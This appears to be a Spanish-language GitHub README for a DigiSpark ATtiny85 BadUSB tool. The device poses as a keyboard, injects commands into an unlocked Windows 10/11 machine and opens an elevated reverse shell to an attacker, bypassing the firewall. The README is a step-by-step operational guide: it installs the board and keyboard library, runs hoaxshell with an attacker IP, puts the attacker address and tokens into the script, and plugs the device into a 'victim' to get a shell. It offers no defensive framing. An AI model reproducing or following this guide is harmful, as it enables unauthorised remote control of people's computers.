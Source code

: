 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada


## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Instala los drivers que se encuentran en ruta config/drivers del repositorio (también puedes buscarlos manualmente si lo prefieres)
3. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
<img width="1006" height="672" alt="imagen" src="https://github.com/user-attachments/assets/8a467877-c94f-439b-af3d-14c5fcf3aba8" />

4. Este script fue creado para cambiar distribuciones de teclado, y es por esto que para que funcione debes copiar la carpeta DigisparkKeyboard del repositorio y pegarla en la siguiente ruta:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
*Con esto podremos cambiar la linea #define kbd_es_es del script .ino para usar la distribucion de teclado que gustes.*

5. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1. Ejecutar Hoaxshell.py
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```

### 2. Copiar el token generado en $i y dejar ejecutandose.
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 3. Abrir Arduino y seleccionar Digispark 16.5 Board.
<img width="858" height="131" alt="imagen" src="https://github.com/user-attachments/assets/3de241e0-7181-44e2-aa3a-a96a26e3e4c1" />

### 4. Dentro de Arduino, abrir el archivo .ino que se encuentra en la ruta script/script.ino del repositorio y modificar las siguientes variables:


- IP_AND_PORT_ATTACKER: Reemplazar por tu IP y puerto de atacante
- TOKEN: Reemplazar por el token generado por hoaxshell
- TOKEN_PART1: Reemplazar con la primera parte del token
- TOKEN_PART2: Reemplazar con la segunda parte del token
- TOKEN_PART3: Reemplazar con la tercera parte del token
- Opcional:  #define kbd_es_es Puedes cambiar esta linea revisando las opciones en config/DigisparkKeyboard/Readme.md

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 5. Compilar el script y conectar el ATTINY 85. Una vez hecho esto, el USB estara listo para el ataque.
<img width="865" height="966" alt="imagen" src="https://github.com/user-attachments/assets/e729488c-4b31-4471-975f-26178ed15a8d" />



### 6. Conectar el dispositivo a la máquina victima y esperar la Respuesta. Si todo sale bien recibiremos la terminal.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)


### 7. Pwned

